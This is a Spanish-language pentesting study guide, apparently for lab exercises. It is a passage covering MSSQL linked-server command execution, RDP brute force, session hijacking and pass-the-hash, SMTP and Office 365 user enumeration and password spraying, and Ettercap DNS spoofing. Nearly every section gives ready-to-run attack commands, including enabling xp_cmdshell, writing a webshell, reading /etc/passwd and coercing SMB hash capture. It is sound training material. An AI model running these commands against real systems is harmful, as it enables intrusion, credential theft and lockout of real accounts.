EXECUTE('SELECT * FROM OPENROWSET(BULK N''C:/flag.txt'', SINGLE_CLOB) AS x') AT [10.0.0.12\SQLEXPRESS];
```

**RCE** (habilitar y usar `xp_cmdshell` en el remoto):
```sql
EXECUTE('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [10.0.0.12\SQLEXPRESS];
EXECUTE('EXEC xp_cmdshell ''whoami''') AT [10.0.0.12\SQLEXPRESS];
```

> [!WARNING]
> **Requiere RPC Out**
> `EXECUTE(...) AT [servidor]` para comandos que no son un simple `SELECT` necesita que el linked server tenga **"RPC Out"** habilitado (si no, falla aunque tengas `sysadmin` en el remoto). Comprobarlo: `SELECT srvname, rpcout FROM master..sysservers;` — `rpcout = 1` significa que está permitido.



---

### mssqlclient.py (Impacket)

```bash
impacket-mssqlclient user:'pass'@10.129.203.7 -windows-auth
```
`mssqlclient.py` no solo conecta — trae comandos internos que **automatizan toda la cadena manual** de arriba:

| Comando interno | Equivale a |
|------------------|------------|
| `enum_impersonate` | La query de `sys.server_permissions` / `IMPERSONATE` del paso 1 |
| `exec_as_login <login>` | `EXECUTE AS LOGIN = '<login>'` (paso 2) |
| `enum_links` | `SELECT srvname, isremote FROM sysservers` (paso 3) |
| `use_link <servidor>` | Cambia el contexto de las siguientes consultas al linked server, sin escribir `EXECUTE(...) AT [...]` a mano (pasos 4-5) |
| `enable_xp_cmdshell` | Toda la secuencia `sp_configure`/`RECONFIGURE` para habilitar `xp_cmdshell` |
| `xp_cmdshell <cmd>` | Ejecuta el comando (local, o en el linked server si estás bajo `use_link`) |
| `xp_dirtree <ruta>` | Fuerza la autenticación SMB para robar el hash (ver **Capturar el hash del servicio MSSQL**) |

> [!TIP]
> En la práctica, con `mssqlclient.py` casi nunca hace falta escribir a mano el `EXECUTE('...') AT [...]` con las comillas duplicadas — `use_link` + `exec_as_login` + `xp_cmdshell` hacen lo mismo con mucho menos margen de error de sintaxis.

---

### Resumen rápido (cheatsheet)

| Comando / Consulta | Qué hace |
|---------------------|----------|
| `mysql -u <user> -p<pass> -h <IP>` | Conectar a MySQL |
| `sqsh -S <IP> -U <user> -P '<pass>' -h` | Conectar a MSSQL desde Linux |
| `impacket-mssqlclient user:'pass'@<IP> -windows-auth` | Conectar a MSSQL con Impacket |
| `SELECT IS_SRVROLEMEMBER('sysadmin'/'securityadmin'/'bulkadmin')` | Comprobar roles con potencial de escalada |
| `EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE;` | Habilitar `xp_cmdshell` (tras habilitar `show advanced options`) |
| `xp_cmdshell 'whoami'` | RCE en MSSQL |
| `SELECT "..." INTO OUTFILE '/ruta/webshell.php'` | Escribir fichero (MySQL) |
| `SELECT * FROM OPENROWSET(BULK N'<ruta>', SINGLE_CLOB) AS c` | Leer fichero (MSSQL, requiere `bulkadmin`) |
| `SELECT LOAD_FILE("/etc/passwd")` | Leer fichero (MySQL) |
| `EXEC master..xp_dirtree/xp_subdirs '\\IP\share\'` | Forzar auth SMB → robar hash del servicio MSSQL |
| `... WHERE permission_name = 'IMPERSONATE'` (en `sys.server_permissions`) | ¿A quién puedo suplantar? |
| `EXECUTE AS LOGIN = '<login>';` ... `REVERT;` | Impersonar / volver a tu contexto |
| `SELECT srvname, isremote FROM sysservers` | Listar linked servers |
| `EXECUTE('...') AT [servidor]` (comillas internas `''dobladas''`) | Ejecutar consulta/RCE/lectura en un linked server |
| `enum_links` / `use_link` / `exec_as_login` / `enable_xp_cmdshell` (en mssqlclient.py) | Automatizan todo el flujo de escalada anterior |

---

Relacionado: **MYSQL** · **MSSQL** (enumeración completa, módulo Footprinting) · **Atacando SMB** (captura de hashes con Responder/relay) · **Pass the Hash (PtH)** · **0 - Attacking Common Services (Índice y cheatsheet)**

---

## Atacando RDP

> [!NOTE]
> **Enumeración vs. explotación**
> Conectar con `xfreerdp` y comprobar la configuración de seguridad (`rdp-sec-check.pl`) ya está en **Protocolos de Administración Remota de Windows** (módulo Footprinting). Aquí: **fuerza bruta, secuestro de sesión y Pass-the-Hash** por RDP (**puerto TCP 3389**).

---

### Fuerza bruta / password spraying

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

| Flag | Qué es |
|------|--------|
| `-b rdp` | Protocolo objetivo |
| `-s <IP/32>` | Objetivo (acepta CIDR) |
| `-U <lista>` | Lista de usuarios |
| `-c <pass>` | Una única contraseña (spraying: misma pass, muchos usuarios) |

[**Crowbar**](https://github.com/galkan/crowbar) está pensado específicamente para *password spraying* contra RDP — evita el lockout de probar muchas contraseñas por usuario.

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

> [!NOTE]
> **Hydra contra RDP**
> Esta misma fuerza bruta con Hydra (y la conexión con `xfreerdp` una vez tienes credenciales) ya está en **Servicios en red** (módulo Password Attacks) — aquí solo se añade **Crowbar** como alternativa especializada en spraying.

---

### Secuestro de sesión RDP (añadido)

Con privilegios de **administrador local** (no hace falta la contraseña del usuario objetivo) se puede **suplantar una sesión RDP activa** de otro usuario, incluido un administrador de dominio que tenga sesión abierta en la máquina.

```cmd
query user
```
Lista las sesiones activas en el host y su **ID de sesión** (columna `ID`).

El binario [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) de Microsoft permite conectar a una sesión existente:

```cmd
tscon <ID_SESIÓN_OBJETIVO> /dest:<NOMBRE_TU_SESIÓN>
```

> [!WARNING]
> **Requiere SYSTEM**
> `tscon` solo puede secuestrar una sesión **sin pedir contraseña** si quien lo ejecuta tiene privilegios **SYSTEM** — un administrador local normal no basta directamente.

#### El truco: ejecutar `tscon` como SYSTEM vía un servicio

Como los **servicios de Windows se ejecutan como SYSTEM**, se puede crear uno cuyo binario sea el propio comando `tscon` y arrancarlo:

```cmd
sc create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
net start sessionhijack
```
`sc create` registra el servicio `sessionhijack` con ese `binpath`; `net start sessionhijack` lo arranca — y al arrancar **como SYSTEM**, `tscon` secuestra la **sesión 1** hacia tu sesión RDP actual (`rdp-tcp#0`) sin pedir ninguna contraseña.



---

### Pass-the-Hash (PtH) por RDP

RDP también admite autenticarse con el **hash NT** en vez de la contraseña, si el objetivo tiene activado el **Restricted Admin Mode**:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```bash
xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA
```

> [!NOTE]
> **Detalle completo en Password Attacks**
> El procedimiento completo (por qué hace falta `DisableRestrictedAdmin`, qué cambia en el objetivo, advertencias) ya está desarrollado en **Pass the Hash (PtH)** — aquí solo el resumen de los dos comandos.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `crowbar -b rdp -s <IP/32> -U <lista> -c '<pass>'` | Password spraying con Crowbar |
| `hydra -L <lista> -p '<pass>' <IP> rdp` | Fuerza bruta con Hydra |
| `query user` | Listar sesiones activas y sus ID |
| `sc create sessionhijack binpath= "cmd.exe /k tscon <ID> /dest:rdp-tcp#0"` → `net start sessionhijack` | Secuestrar sesión como SYSTEM sin contraseña |
| `reg add ...DisableRestrictedAdmin /d 0x0` → `xfreerdp /v:<IP> /u:<user> /pth:<hash>` | Pass-the-Hash por RDP |

---

Relacionado: **Protocolos de Administración Remota de Windows** (enumeración, módulo Footprinting) · **Servicios en red** (fuerza bruta) · **Pass the Hash (PtH)** · **Atacando SMB** · **0 - Attacking Common Services (Índice y cheatsheet)**

---

## Atacando SMTP (y servicios de correo)

> [!NOTE]
> **Enumeración vs. explotación**
> Puertos, agentes (MUA/MTA/MSA/MDA), `HELO`/`EHLO`, `VRFY` y la config de *open relay* ya están en **SMTP**; los comandos de IMAP/POP3 en **IMAP POP3** (módulo Footprinting). Aquí: **enumerar usuarios con más comandos, automatizarlo, fuerza bruta de buzones y ataques contra Office 365**.

---

### Localizar el servidor de correo

```bash
host -t MX hackthebox.eu
```
```bash
dig mx plaintext.do | grep "MX" | grep -v ";"
```
```bash
host -t A mail1.inlanefreight.htb.
```
Búsqueda del registro **MX** (qué servidor recibe el correo del dominio) y resolución de su IP (registro **A**).

---

### Enumeración de usuarios por SMTP

Además de `VRFY` (ver **SMTP**), el protocolo admite otros comandos útiles para enumerar cuentas válidas:

```bash
telnet 10.10.110.20 25
```

##### EXPN

```
EXPN support-team
```
Usado con una **lista de distribución**, lista a **todos los usuarios** que la componen — más jugoso que `VRFY` cuando funciona.

##### RCPT TO

```
RCPT TO:julio
```
Identifica al destinatario de un mensaje; se puede repetir para **comprobar usuario a usuario** si el servidor acepta cada destinatario sin errores (sin necesidad de completar el envío).

#### Automatizar con smtp-user-enum

```bash
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

| Flag | Qué es |
|------|--------|
| `-M <VRFY\|EXPN\|RCPT>` | Modo/comando de enumeración a usar |
| `-U <lista>` | Fichero con los usuarios a comprobar |
| `-D <dominio>` | Dominio a añadir a la dirección (según cómo lo pida el servidor) |
| `-t <IP>` | Objetivo |

[**smtp-user-enum**](https://github.com/pentestmonkey/smtp-user-enum) automatiza probar toda una lista de usuarios con el comando que elijas (`VRFY`, `EXPN` o `RCPT`), en vez de hacerlo a mano por `telnet`.

---

### Fuerza bruta de buzones (POP3)

Una vez tienes usuarios válidos, se puede probar fuerza bruta de contraseñas contra el servicio **POP3** (ver comandos `USER`/`PASS` en **IMAP POP3**):

```bash
hydra -l 'marlin@inlanefreight.htb' -P passwords.list -f 10.10.110.20 pop3
```
`-f` hace que Hydra **pare en cuanto encuentre** una contraseña válida.

---

### Probar el open relay

```bash
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213
```
[**swaks**](https://github.com/jetmore/swaks) (*Swiss Army Knife for SMTP*) envía un correo de prueba especificando remitente y destinatario arbitrarios. Si el servidor lo **acepta y retransmite** sin exigir autenticación, confirma la mala configuración *open relay* ya descrita en **SMTP** — se puede usar para **spoofear remitentes** (phishing interno) o como prueba de concepto para el informe.

---

### Email corporativo: Office 365

Si el dominio usa **Office 365**, se puede enumerar y atacar su superficie de autenticación en la nube con [**O365spray**](https://github.com/0xZDH/o365spray):

```bash
python3 o365spray.py --validate --domain msplaintext.xyz
```
Comprueba si el dominio efectivamente usa O365.

```bash
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```
Enumera qué usuarios de la lista **existen de verdad** en el tenant (el endpoint de autenticación de Microsoft responde distinto para usuarios válidos/inválidos).

```bash
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
*Password spraying* contra los usuarios confirmados. `--count 1` y `--lockout 1` limitan los intentos para **minimizar el riesgo de bloqueo de cuentas**.

> [!WARNING]
> **Riesgo de lockout real**
> A diferencia de un servicio de laboratorio, O365 está en producción para la empresa real: un spray mal calibrado puede **bloquear cuentas de empleados de verdad**. Respeta siempre `--count`/`--lockout` y el alcance acordado.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `host -t MX <dominio>` / `dig mx <dominio>` | Localizar el servidor de correo |
| `EXPN <lista>` | Enumerar usuarios de una lista de distribución |
| `RCPT TO:<usuario>` | Comprobar si un destinatario existe |
| `smtp-user-enum -M <VRFY/EXPN/RCPT> -U <lista> -D <dominio> -t <IP>` | Automatizar enumeración de usuarios |
| `hydra -l <user> -P <lista> -f <IP> pop3` | Fuerza bruta de un buzón POP3 |
| `swaks --from a@x --to b@y --server <IP>` | Probar vulnerabilidad de open relay |
| `o365spray.py --validate --domain <d>` | Confirmar uso de Office 365 |
| `o365spray.py --enum -U <lista> --domain <d>` | Enumerar usuarios válidos en O365 |
| `o365spray.py --spray -U <lista> -p '<pass>' --domain <d>` | Password spraying contra O365 |

---

Relacionado: **SMTP** · **IMAP POP3** (enumeración, módulo Footprinting) · **Servicios en red** (fuerza bruta) · **Atacando el DNS** (localizar el MX) · **0 - Attacking Common Services (Índice y cheatsheet)**

---

## Atacando el DNS

> [!NOTE]
> **Enumeración vs. explotación**
> La transferencia de zona (AXFR) a fondo está en **Transferencias de zona DNS**, y la fuerza bruta de subdominios (DNSEnum, Certificate Transparency) en **Subdominios** y **Herramientas de DNS** (módulo Information Gathering Web). Aquí: variantes rápidas de esas técnicas + **DNS spoofing** (ataque activo, no enumeración).

El DNS funciona principalmente sobre **UDP/53**, aunque cada vez depende más de **TCP/53** (respuestas grandes, DNSSEC, transferencias de zona).

---

### Transferencia de zona — recordatorio

```bash
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```
Primer intento siempre: si el servidor la permite, filtra **toda la zona** sin fuerza bruta. Detalle completo del proceso en **Transferencias de zona DNS**.

---

### Fuerza bruta de subdominios — herramientas adicionales

```bash
fierce --domain zonetransfer.me
```
[**Fierce**](https://github.com/mschwager/fierce) enumera servidores DNS del dominio raíz y, de paso, intenta la transferencia de zona. Ya aparece listada en **Herramientas de DNS**; aquí el ejemplo de uso directo.

```bash
python3 subbrute.py inlanefreight.htb -s names.txt -r resolvers.txt
```
**Subbrute** (añadido: no estaba en **Herramientas de DNS**) resuelve subdominios de una lista (`-s`) usando una lista de **resolvers DNS externos** (`-r`) en vez de los del sistema — útil para evitar *rate-limiting* del resolver local y para no depender de un único servidor DNS.

---

### DNS Spoofing (envenenamiento de caché)

Ataque **activo de MITM**: alterar registros DNS legítimos con información falsa para redirigir el tráfico de la víctima a un sitio controlado por el atacante (ej. clonar una página de login). Requiere estar en la **misma red local** que la víctima (para hacer ARP spoofing / interceptar sus consultas DNS).

#### 1. Editar el fichero de spoofing de Ettercap

```bash
sudo nano /etc/ettercap/etter.dns
```
Añadir una entrada que mapee el dominio objetivo a tu IP de atacante:

```
inlanefreight.htb      A   10.10.14.5
*.inlanefreight.htb     A   10.10.14.5
```
La segunda línea (`*.`) cubre **cualquier subdominio** del dominio objetivo.

#### 2. Lanzar Ettercap con el plugin `dns_spoof`

```bash
sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof /<IP_víctima>// /<IP_gateway>//
```

| Flag | Qué hace |
|------|----------|
| `-T -q` | Modo texto, silencioso (sin volcar todo el tráfico) |
| `-i <iface>` | Interfaz de red a usar |
| `-M arp:remote` | Activa el **envenenamiento ARP** (MITM) entre víctima y gateway |
| `-P dns_spoof` | Carga el plugin que responde con las entradas de `etter.dns` en vez de las reales |
| `/<IP>// /<IP>//` | Objetivo 1 (víctima) y objetivo 2 (normalmente el gateway) |



> [!WARNING]
> **Por qué funciona y sus límites**
> El DNS spoofing abusa de que la víctima **confía en la primera respuesta DNS que recibe**; al interceptar su tráfico con ARP spoofing, el atacante responde antes que el servidor DNS legítimo. Solo funciona dentro del **mismo segmento de red** (broadcast ARP) y es fácilmente detectable con herramientas de monitorización de red (respuestas DNS duplicadas/inconsistentes).

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `dig AXFR @<ns> <dominio>` | Transferencia de zona (ver **Transferencias de zona DNS**) |
| `fierce --domain <dominio>` | Enumerar NS + intentar AXFR |
| `subbrute.py <dominio> -s <lista> -r <resolvers>` | Fuerza bruta de subdominios vía resolvers externos |
| `/etc/ettercap/etter.dns` | Fichero de mapeos falsos para `dns_spoof` |
| `ettercap -T -q -i <iface> -M arp:remote -P dns_spoof /<víctima>// /<gateway>//` | Lanzar el spoofing (ARP + DNS) |

---

Relacionado: **Transferencias de zona DNS** · **Subdominios** · **Herramientas de DNS** (módulo Information Gathering Web) · **Atacando SMTP** · **0 - Attacking Common Services (Índice y cheatsheet)**

---
